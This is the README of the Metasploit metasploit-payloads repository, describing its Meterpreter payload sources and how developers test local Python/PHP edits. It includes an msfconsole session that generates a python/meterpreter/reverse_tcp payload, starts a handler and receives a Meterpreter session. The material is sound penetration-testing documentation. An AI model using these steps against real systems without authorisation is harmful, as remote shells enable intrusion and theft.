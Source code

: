 metasploit-payloads
===================

Appveyor build status: [![Build Status](https://ci.appveyor.com/api/projects/status/github/rapid7/metasploit-payloads)](https://ci.appveyor.com/project/appveyor-r7/metasploit-payloads)

This is a unified repository for different Metasploit Framework payloads, which merges these repositories:

 * [C Windows Meterpreter][csource]
 * [Java and Android Meterpreter and Payloads][javasource]
 * [Python and PHP Meterpreter][frameworksource]

An alternate cross-platform C Meterpreter, called Mettle, is developed at https://github.com/rapid7/mettle

See the individual directories for meterpreter-specific README, build instructions and license details:

 * [C Windows/Linux Meterpreters][creadme]
 * [Java/Android Meterpreters and Payloads][javareadme]

For Python and PHP Meterpreter, you can test changes to these files by symlinking the associated files to `~/.msf4/payloads/meterpreter`.
As an example, here is how this might look like for a Python Meterpreter edit:

```bash
mkdir ~/.msf4/payloads # If this doesn't exist already
cd ~/git/metasploit-payloads
ln -s /home/your_user/git/metasploit-payloads/python/meterpreter/ext_server_stdapi.py /home/your_user/.msf4/payloads/meterpreter/ext_server_stdapi.py
file ~/.msf4/payloads/meterpreter/ext_server_stdapi.py
       /home/your_user/.msf4/payloads/meterpreter/ext_server_stdapi.py: symbolic link to /home/your_user/git/metasploit-payloads/python/meterpreter/ext_server_stdapi.py
```

If things went right you should see a warning message when selecting one of the corresponding Meterpreter payloads and recieving a session:

```
msf6 > use payload/python/meterpreter/reverse_tcp
msf6 payload(python/meterpreter/reverse_tcp) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf6 payload(python/meterpreter/reverse_tcp) > generate -f raw -o reverse.py
[*] Writing 436 bytes to reverse.py...
msf6 payload(python/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0

[*] Started reverse TCP handler on 192.168.153.128:4444
msf6 payload(python/meterpreter/reverse_tcp) > WARNING: Local file /home/your_user/.msf4/payloads/meterpreter/meterpreter.py is being used
WARNING: Local files may be incompatible with the Metasploit Framework
[*] Sending stage (24380 bytes) to 192.168.153.1
WARNING: Local file /home/your_user/.msf4/payloads/meterpreter/ext_server_stdapi.py is being used
[*] Meterpreter session 1 opened (192.168.153.128:4444 -> 192.168.153.1:50334) at 2022-12-13 12:49:49 -0600
```

When making changes to Meterpreter - ensure that the [test modules](https://docs.metasploit.com/docs/development/quality/loading-test-modules.html) are verified as working.

  [csource]: https://github.com/rapid7/meterpreter
  [creadme]: https://github.com/rapid7/metasploit-payloads/tree/master/c/meterpreter
  [javasource]: https://github.com/rapid7/metasploit-javapayload
  [javareadme]: https://github.com/rapid7/metasploit-payloads/tree/master/java
  [frameworksource]: https://github.com/rapid7/metasploit-framework/tree/master/data/meterpreter
  [build_icon_windows]: https://ci.metasploit.com/buildStatus/icon?job=MeterpreterWin
  [build_icon_posix]: https://travis-ci.org/rapid7/meterpreter.png?branch=master
